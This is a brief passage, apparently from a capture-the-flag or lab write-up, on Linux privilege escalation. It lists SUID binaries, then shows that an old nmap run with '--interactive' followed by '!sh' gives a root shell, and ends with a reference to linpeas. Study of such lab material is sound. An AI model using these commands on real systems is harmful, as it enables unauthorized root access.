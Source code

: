 ```
-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 43160 Jan 10  2024 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 43168 Jan 10  2024 /sbin/pam_extrausers_chkpwd
```

> in hint say it in nmap


in old versions of ``nmap`` if you use:

```
/usr/local/bin/nmap --interactive
```

it will open interacitve shell you can get root form it :

```
!sh
```

![image](https://github.com/user-attachments/assets/a852996f-cf24-44d0-968a-eee43e4712bc)



* <details><summary>preivillage esc using linpeas 🟪🟧✅ (didn't try all this ways)</summary></details>






